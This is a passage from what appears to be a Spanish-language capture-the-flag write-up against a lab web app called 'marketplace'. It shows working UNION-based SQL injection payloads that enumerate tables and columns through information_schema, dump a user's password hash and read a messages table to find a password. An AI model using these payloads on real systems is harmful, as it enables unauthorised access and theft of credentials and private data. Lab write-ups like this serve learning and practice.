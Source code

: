 ![](error_order.png)

Aquí ya me da fallo por lo que tenemos 4 columnas.

Vamos a seguir dibujando la base de datos.

Con esta query podemos ver el nombre de la base de datos.

![](database.png)

Ahora vamos a sacar las tablas de la base de datos.

`?user=123 union SELECT group_concat(table_name),2,3,4 FROM information_schema.tables WHERE table_schema ='marketplace'`

![](tablas.png)

Aquí tenemos las tablas, vamos a ver la de usuarios a ver si contiene alguna contraseña.

![](url_tablas.png)

`?user=123 union SELECT group_concat(column_name),2,3,4 FROM information_schema.columns WHERE table_schema  = database() and table_name = 'users'`

![](columas.png)

Aquí tenemos las columnas de la tabla **users**, ahora vamos a listar estas columnas. Voy a listar las columnas.

Mediante esta query vamos listar todo.

![](url_columas.png)

![](hash.png)

Aquí tenemos el hash del usuario **system**. Vamos a intentar decodificarlo.

No he podido decodificarlo así que he decidido tirar por otro lado.

Vamos a ver otra tabla, la tabla **message.**

`?user=123 union SELECT group_concat(column_name),2,3,4 FROM information_schema.columns WHERE table_schema  = database() and table_name = 'message'`

![](columas1.png)

Ahora vamos a listar todas las columnas de esta tabla.

![](url_columnas1.png)

`?user=123 union SELECT group_concat(id,user_from,user_to,message_content,is_read),2,3,4 FROM message)`

![](pass.png)

Aquí tenemos una posible contraseña, vamos a probarlos en los dos usuarios que tenemos.
